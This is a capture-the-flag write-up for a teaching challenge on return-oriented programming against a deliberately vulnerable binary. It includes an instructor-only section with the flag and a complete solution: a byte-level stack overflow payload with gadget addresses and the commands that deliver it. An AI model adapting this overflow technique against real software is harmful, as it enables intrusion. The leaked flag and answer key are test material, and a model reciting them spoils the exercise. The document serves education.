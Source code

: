 # Writeup

This is a Return-Oriented Programming Challenge (ROP) in assembly. The goal is to execute the function `win()`, while putting the value "3" in rax, and the value "2" in rbx.
For this challenge, you are provided with a binary called "rop" where the challenge takes place, and an auxiliary binary called "hex2raw" which converts a hex string to raw bytes. Credit goes to the creators of the CMU attack lab for the creation of the hex2raw binary.

The binary was compiled as follows: gcc -o rop rop.c -fno-stack-protector -no-pie -z execstack

Notice there is no stack protection, so we can overwrite the return address of the function `bof()` with the address of `win()`. However, we need to put the values "3" and "2" in rax and rbx respectively, so we need to find a way to do that.

hex2raw takes a .txt file, and converts it to raw bytes. The file should be in individual hex bytes separated by spaces.
For example, proper formating of an input file "test.txt" could be:
```
48 89 e5 48 83 ec 10 48 8d 3d 00 00 00 00 48 8d
35 00 00 00 00 48 89 c7 48 89 d8 48 89 f9 48 89
da 48 89 fb 48 89 fc 48 89 fd 48 89 fe 48 89 ff
48 89 c6 b0 03 48 89 df b0 02 0f 05
```

The size of the buffer to be overflowed is 40 bytes.

gdb is your best friend in the entire world for this challenge. You can use it to disassemble the binary, and find the addresses of the gadgets you need.

If you try to cheat, say by artifically injecting values into the registers with gdb and skipping some checks, your flag will not be the correct one, so be careful.

Good luck!

# Not for students:

The flag is: CTF_SDaT{AW3s0m3_J0b_0n_th3_Ch4113ng3}

The challenge is solved by producing an input string that will overwrite the return address of the function `bof()` with the address of `win()`, and also put the values "3" and "2" in rax and rbx respectively.

To do so, we create an input file "input.txt" with the following content:
```
90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 
4c 14 40 00 00 00 00 00 
03 00 00 00 00 00 00 00 
14 15 40 00 00 00 00 00 
02 00 00 00 00 00 00 00 
96 11 40 00 00 00 00 00 

```

Where the first 40 bytes are filler, the next 8 bytes are the address of a gadget that pops rax, the next 8 bytes are the value "3", the next 8 bytes are the address of a gadget that pops rbx, the next 8 bytes are the value "2", and the last 8 bytes are the address of `win()`.

The address of the gadget that pops rax is 0x0040144c, and the address of the gadget that pops rbx is 0x00401514.

The address of `win()` is 0x00401196.

The input file is then converted to raw bytes with the following command:
```
./hex2raw < input.txt > raw.txt
```

The raw bytes are then piped into the binary with the following command:
```
./rop raw.txt
```
